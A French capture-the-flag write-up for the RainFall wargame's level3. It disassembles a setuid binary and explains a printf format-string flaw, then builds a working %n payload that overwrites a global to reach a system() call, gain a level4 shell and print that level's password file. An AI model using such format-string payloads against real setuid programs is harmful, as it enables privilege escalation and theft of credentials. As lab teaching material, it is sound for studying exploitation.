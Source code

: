 On a un binaire avec le flag setuid
```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```
On désassemble
```asm
level3@RainFall:~$ objdump -d -M intel ./level3
080484a4 <v>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       81 ec 18 02 00 00       sub    esp,0x218
 80484ad:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484b2:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484b6:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484c4:       89 04 24                mov    DWORD PTR [esp],eax
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt>
 80484cc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484d2:       89 04 24                mov    DWORD PTR [esp],eax
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt>
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
 8048518:       c9                      leave
 8048519:       c3                      ret

0804851a <main>:
 804851a:       55                      push   ebp
 804851b:       89 e5                   mov    ebp,esp
 804851d:       83 e4 f0                and    esp,0xfffffff0
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret
 8048527:       90                      nop
 8048528:       90                      nop
 8048529:       90                      nop
 804852a:       90                      nop
 804852b:       90                      nop
 804852c:       90                      nop
 804852d:       90                      nop
 804852e:       90                      nop
 804852f:       90                      nop
```
On remarque l'appel à **fgets**, **printf**, **fwrite** et **system**. La fonction v est intéressante. Elle est appelé par main et utilise la fonction printf.On voit que avant printf, les registres habiruellement utilisé pour passer des arguments ne sont pas utilisés et restent donc a priori aux valeurs définies avant l'appel a fgets, donc printf est appelé de cette manière: printf(buffer);
>Cela déclenche généralement un warning à la compilation:
```C
test.c:7:19: warning: format not a string literal and no format arguments [-Wformat-security]
    7 |  int res = printf(buffer);
      |
```
On va a priori pouvoir faire un exploit de format.
Un contrôle protège l'appel a **system**, un cmp est fait entre une valeur à l'adresse **0x804988c** et 0x40, soit 64. Si on le passe, **fwrite** est appelé, on suppose que fwrite va écrire dans un buffer ou sur la sortie standard et que system va prendre cette sortie comme argument:
```asm
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
```
Il faut donc écrire 64 à cette adresse **0x804988c** pour passer le contrôle.
Vérifions d'abord la vulnérabilité de printf
```
level3@RainFall:~$ ./level3
aaaa %x %x %x %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```
plusieurs choses:
- printf imprime d'abord la chaine passé en paramètre
- on a ensuite 0x200 soit 512, on remarque que c'est le premier argument de fgets dans **ebx**
- puis b7fd1ac0 b7ff37d0 qui sont certainement les deuxième et troisième arguments dans **ecx** et **edx**
- enfin 0x61616161 qui est notre chaine "aaaa"
- Le format qui permat d'imprimer le buffer passé en argument est en 4ème position, on peut utiliser %4$ + format

>Le format %n permet d'écrire à l'adresse n, qui est l'adresse d'un int, le nombre de charactère déjà imprimés par printf

essayons d'écrire l'adresse en **little endian**:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08%4$x"' > /tmp/test_payload
level3@RainFall:~$ cat /tmp/test_payload | ./level3
�804988c
```
Il y a 1 caractère imprimé avant le format %4$x
Nous allons donc faire le payload suivant:
l'adresse où le cmp s'effectue + une chaine random pour compléter + le format %n en quatrième argument de printf:
**0x804988c** + a * 60 + %4$n
soit:
1 octet imprimé + 60 octets imprimés + 3 octets imprimés:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%4$n"' > /tmp/payload
level3@RainFall:~$ cat /tmp/payload - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
Flag!